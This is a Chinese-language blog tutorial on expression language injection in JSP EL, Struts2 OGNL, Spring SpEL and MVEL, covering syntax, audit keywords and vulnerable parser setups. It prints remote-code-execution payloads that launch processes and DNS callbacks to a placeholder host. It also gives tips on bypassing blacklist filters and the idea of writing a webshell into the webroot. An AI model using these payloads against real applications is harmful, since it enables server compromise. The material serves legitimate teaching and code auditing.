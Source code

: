 # 表达式注入初探


## 简介

2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。









## 常用的表达式语言



### JSP—JSTL_EL

#### 基础

EL表达式(表达式语言)是一种**在JSP中内置的语言**(也就是说所有的Java Web服务都必然会支持这种表达式。但是由于各家对其实现的不同，也导致某些漏洞可以在一些Java Web服务中成功利用，而在有的服务中则是无法利用)，可以用作用户访问页面的上下文以及不同作用域的对象，取得对象属性值或者执行简单的运算和判断操作：获取数据、执行运算、获取Web开发常用对象、调用Java方法。



**JSP四大作用域：**

- page：只在一个页面保存数据[`javax.servlet.jsp.PageCotent`]
- request：只在一个请求中保存数据[`java.servlet.httpServletRequest`]
- session：在一次会话中保存数据，仅供单个用户使用[`javax.servlet.http.HttpSession`]
- application：在整个服务器中保存数据，全部用户共享[`javax.servlet.ServletContenxt`]



**EL基础语法：**

在JSP中，用`${}`表示此处为EL表达式。

在未指定作用域时，依次向后寻找；

在指定了作用域时，在范围内寻找：如`${requestScope.name}`表示在request作用域范围内获取name变量。



**获取对象属性：**

一种方法，为：`${对象.属性}`，如`${param.name}`

另一种为，：`[]`符号，如：`${param[name]}`，当属性名存在特殊字符时需要使用此方式



**EL表达式也可以实例化Java的内置类：**

```jsp
//如 Runtime.calss会执行系统命令

<body>
    ${Runtime.getRuntime().exec("calc")}
</body>

```



```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```





简答来说，EL表达式是Java代码的简化版，用户可以通过可控的输入注入一段EL表达式执行代码。但用户难以控制EL表达式进行表达式注入。





#### 渗透思路

获取webroot路径，exec执行命令echo写入一句话。











### Struts2—OGNL



表达式格式：

```bash
@[类全名（包括包路径）]@[方法名 | 值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```



基本用法：

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression))
```



相关漏洞：s2-009、s2-012、s2-013、s2-014、s2-015、s2-016，s2-017、。。。



### Spring—SPEL

SPEL（Spring表达式语言），是Spring框架专有的EL表达式

SpEL使用 `#{…} `作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法



#### **基本用法：**

```jsp
//在jsp页面中可以使用el表达式代替<%=%>，之间访问java对象。

String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

1.使用量表达式：

```java
"#{Hello world}"
```

2.使用java代码new/instance of
```java
Expression exp = parsee.parserExpression("new Spring('hello')");

```

3.使用T(type)

表示java.lang.Class实例：

```java
parse.parseExpression(T(Integer).MAX_VALUE)
```

使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

```java
#{T(java.lang.Math)}
```

T()运算符的结果会返回一个java.lang.Math类对象。




#### **代码审计关键字：**

```
org.springframework.expression.spel.standard
SpelExpressionParser
parserExpress
expression.getValue()
expression.setValue()
...
```







#### SpEL漏洞

Spring为SpEL提供了两套不同的接口，分别是：

- SimpleEvaluationContext（更安全一些，推荐使用）
- StandardEvaluationContext：包含了SpEL的所有功能





**漏洞原因：**

开发人员未对用户输入进行处理就直接通过解析引擎对Spel继续解析。一旦用户能够控制解析的SpEL语句，便可以通过反射的方式构造代码执行的SpEL语句，从而达到RCE的目的。



例如：

```java
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class TTTTT {
    public static void main(String []args) throws Exception {
        String expr = "T(Runtime).getRuntime.exec(\"calc.exe\")";

        ExpressionParser  parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        Expression expression = parser.parseExpression(expr);
        System.out.println(expression.getValue(evaluationContext));


    }
}

```



![](http://image.xpshuai.cn/img/image-20220120172956738.png)



**常用POC：**

```
${255*255}

T(Thread).sleep(10000)

T(java.lang.Runtime),getRuntime().exec('命令')
T(java.lang.Runtime),getRuntime().exec('nslookup xxxxx.com')

new java.lang.ProcessBuilder("命令").start()
new java.lang.ProcessBuilder("nslookup xxxxx.com").start()

#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxxxx.com')
```



需要绕过黑名单校验，对于急于正则的匹配绕过是很简单的：

- 利用反射于拆分关键字构造Payload
- 利用ScriptEngineManner









### Elasticsearch——MVEL



基本用法：

```java
java import org.mvel.MVEL;

public class MVELTest {
    public static void main(String[] args) { String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
    Boolean result = (Boolean) MVEL.eval(expression, vars);
    }
}
```









## 参考文章



[(57条消息) Java 安全-手把手教你SPEL表达式注入_4ct10n-CSDN博客_spel表达式注入](https://blog.csdn.net/qq_31481187/article/details/108025512)

[Spring-data-commons(CVE-2018-1273)漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/172984.html)







---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/  

